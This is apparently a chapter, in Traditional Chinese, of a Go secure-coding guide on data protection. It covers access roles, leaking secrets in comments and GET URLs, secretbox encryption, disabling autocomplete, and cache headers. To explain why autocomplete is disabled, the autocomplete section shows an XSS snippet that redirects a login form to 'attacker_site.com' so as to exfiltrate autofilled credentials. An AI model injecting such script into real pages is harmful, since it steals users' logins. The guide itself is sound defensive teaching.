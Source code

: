 資料保護
===============

在現今，關於安全最重要的事情就是資料保護了，你不會想要看到下面這張圖的：

![All your data are belong to us](files/cB52MA.jpeg)

簡單來說，任何從網站來的資料，你都會需要保護它們。在本章中，我們會來看看確保這些資料安全的一些做法。

你要做的第一件事情，就是確保給予使用者正確的權限，並且限制他們只存取他們需要的功能。

舉例來說，一個簡單的線上購物網站會需要以下幾個角色：

* _銷售人員_: 權限只能查看購物車
* _行銷人員_: 權限只能查看統計報表
* _開發人員_: 權限只能修改頁面內容

此外，在系統設定(也就是網站伺服器的設定)，你也應該定義正確的權限。

主要的工作就是為每個使用者，不論是網站或系統，都定義正確的角色。

角色分離和訪問控制的內容，你可以在[訪問控制][1]章節中進行更詳細的閱讀。

## 移除敏感資訊

包含敏感資訊的快取或暫存檔案，在不需要使用時應該要盡快移除。如果你依舊需要使用者它們，可以將它們移到被保護的區域，或是加密它們。

### 註解

某些時候開發者會在原始碼中留下註解，像是 _待完成清單_。而有時候，在最糟糕的情況下，有可能會留下某些認證資訊。

```go
// Secret API endpoint - /api/mytoken?callback=myToken
fmt.Println("Just a random code")
```

在上面的範例中，開發者留下了一個帶有敏感資訊的註解，當你的程式碼沒有被妥善保存時，可能會被有心人士拿來利用。

### 網址

使用 HTTP GET 來傳遞敏感資訊會使得網站變得脆弱，因為：

1. 當你沒有使用 HTTPS 時，資料可能會被攔截。
2. 瀏覽器的歷史紀錄會保存使用者的資訊。如果網址中包含了使用者的 ID 或是 token，同時這些資訊沒有過期時，就很有可能被竊取。

```go
req, _ := http.NewRequest("GET", "http://mycompany.com/api/mytoken?api_key=000s3cr3t000", nil)
```

當你的網站嘗試使用 ```api_key``` 到第三方服務取得資訊時，當任何人監聽了你的網路，資料就很有可能被竊取。這是因為你沒有使用 HTTPS，而且你透過 GET 來傳遞你的參數。

同樣的，如果你透過以下方式來存取服務：

```
http://mycompany.com/api/mytoken?api_key=000s3cr3t000
```

這些資料會被存到瀏覽器的歷史紀錄中，就很有可能被竊取。

解決的辦法是總是使用 HTTPS，並且將重要資料透過 POST 傳送，如果可能，使用一次性的 ID 或 token。

### 資訊就是力量

你應該總是移除正式環境系統文件，某些文件中會揭露版本資訊，甚至包含了某些可以攻擊系統的方法(例如：說明文件、變更日誌等)。

身為開發者，你應該要允許使用者可以刪除自己的敏感資訊，想像一下使用者想要刪除不再使用的信用卡資訊，而你應該要允許他們做這件事情。

所有不需要使用的資訊應該要從系統中刪除。

#### 加密是關鍵

所有高度敏感的資訊在系統中都應該被加密，在 Go 語言中使用[軍事等級][2]的加密方法。更多資訊請參考[加密實踐][3]章節。

如果你需要在某個地方實作你的程式碼，只需要使用執行檔。現在沒有一個保證的方法可以避免逆向工程。

對於不同的使用者，給予不同權限是保護程式碼的最佳實踐。

不要使用明文儲存使用者密碼、資料庫連線字串(你可以在[資料庫安全][4]的章節中查看如何安全的使用連線字串)或其他敏感的資訊。

底下是使用 Go 的 `golang.org/x/crypto/nacl/secretbox` 套件進行加密的一個範例：


```go
// Load your secret key from a safe place and reuse it across multiple
// Seal calls. (Obviously don't use this example key for anything
// real.) If you want to convert a passphrase to a key, use a suitable
// package like bcrypt or scrypt.
secretKeyBytes, err := hex.DecodeString("6368616e676520746869732070617373776f726420746f206120736563726574")
if err != nil {
    panic(err)
}

var secretKey [32]byte
copy(secretKey[:], secretKeyBytes)

// You must use a different nonce for each message you encrypt with the
// same key. Since the nonce here is 192 bits long, a random value
// provides a sufficiently small probability of repeats.
var nonce [24]byte
if _, err := io.ReadFull(rand.Reader, nonce[:]); err != nil {
    panic(err)
}

// This encrypts "hello world" and appends the result to the nonce.
encrypted := secretbox.Seal(nonce[:], []byte("hello world"), &nonce, &secretKey)

// When you decrypt, you must use the same nonce and key you used to
// encrypt the message. One way to achieve this is to store the nonce
// alongside the encrypted message. Above, we stored the nonce in the first
// 24 bytes of the encrypted text.
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```

輸出是：

```
hello world
```

## 停用你不需要的功能

另一個降低被攻擊風險的方式是停用系統中任何你不需要的功能或服務。

### 自動完成

根據 [Mozilla 文件][1]，你可以透過以下方式停用自動完成的功能：

```html
<form method="post" action="/form" autocomplete="off">
```

或是這樣做：

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

這對於在登入表單上停用動完成特別有用。想像一下當登入頁面含有 XSS 的內容時，如果攻擊者建立以下的程式碼：

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

他將會把自動完成中的內容送到 `attacker_site.com` 網站。

### 快取

在頁面中包含敏感資料的快取應該要被禁止。

這可以透過在 Header 中設置對應的值來達成：

```go
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```

`no-cache` 告訴瀏覽器在使用任何快取前要先向伺服器詢問最新的資料，而不是告訴瀏覽器 _不要快取資料_。

另一方面，`no-store` 才是告訴瀏覽器 - _嘿！不要快取_，而且不要儲存使用者請求或回應的任何資料。

`Pragma` header 是支援 HTTP/1.0 請求的。

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: https://godoc.org/golang.org/x/crypto
[3]: /cryptographic-practices/README.md
[4]: /database-security/README.md
